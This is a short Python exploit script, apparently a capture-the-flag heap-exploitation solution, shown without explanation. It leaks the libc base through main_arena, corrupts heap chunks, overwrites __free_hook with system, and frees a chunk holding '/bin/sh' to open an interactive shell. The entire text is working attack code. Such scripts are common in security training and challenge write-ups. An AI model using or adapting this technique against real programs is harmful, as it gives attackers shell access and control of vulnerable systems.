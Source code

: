 ~~~python
add(0x98, '\n')
add(0xb8, '\n')
add(0x98, '/bin/sh\0\n')
delete(0)
result = add(0x118, '\x78')

main_arena_addr = u64(result.ljust(8, '\0')) - 0x58
log.success('main_arena_addr: ' + hex(main_arena_addr))
libc_addr = main_arena_addr - (libc.symbols['__malloc_hook'] + 0x10)
log.success('libc_addr: ' + hex(libc_addr))

delete(0)
add(0x118, 'a' * 0xe0 + p64(0) + p64(0x231))
edit('b' * 0x20 + p64(image_base + 0x202040 + 1))
delete(1)

add(0x200, '\n')
edit('b' * 0x20 + p64(libc_addr + 0x3c67f8))
edit('b' * 0x20 + p64(libc_addr + libc.symbols['__free_hook'] - 0x40 - 3))

delete(2)
delete(1)
add(0x200, 'c' * 0xc0 + p64(0) + p64(0xc1) + p64(libc_addr + libc.symbols['__free_hook'] - 0x48))

add(0xb8, '\n')
add(0xb8, '\0' * 0x38 + p64(libc_addr + libc.symbols['system']))
delete(3)

sh.interactive()
clear()
~~~